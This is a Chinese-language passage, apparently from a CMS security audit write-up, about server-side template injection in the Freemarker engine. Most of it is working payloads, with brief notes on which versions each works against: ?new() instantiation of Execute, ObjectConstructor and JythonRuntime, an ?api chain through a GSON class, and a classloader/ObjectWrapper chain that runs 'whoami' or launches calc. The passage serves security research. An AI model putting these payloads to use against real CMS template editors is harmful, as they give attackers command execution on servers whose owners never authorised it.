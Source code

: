 2、模板注入

像这类提供了自定义模板编辑功能点的 cms 系统，可以看下系统引用的模板引擎如 `Thymeleaf`、`Freemarker`等，可能会存在模板注入 (该系统使用的是 `Freemarker 2.3.32` 版本，我们这里整理了下该引擎历史版本可利用的 POC)：

-   new()

```html
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("Calc") }
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","Calc").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")
```

但这个利用方法在 `2.3.17` 版本以后修复了，官方对这三个类的解析做了限制。

-   API

```html
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("Calc"")}
```

利用前提：当 `api_builtin_enabled` 为 true 时才可使用，而该配置在`2.3.22` 版本之后默认为 false。

-   `2.3.30`以下版本

```html
<#assign classloader=<<object>>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("whoami")}
```
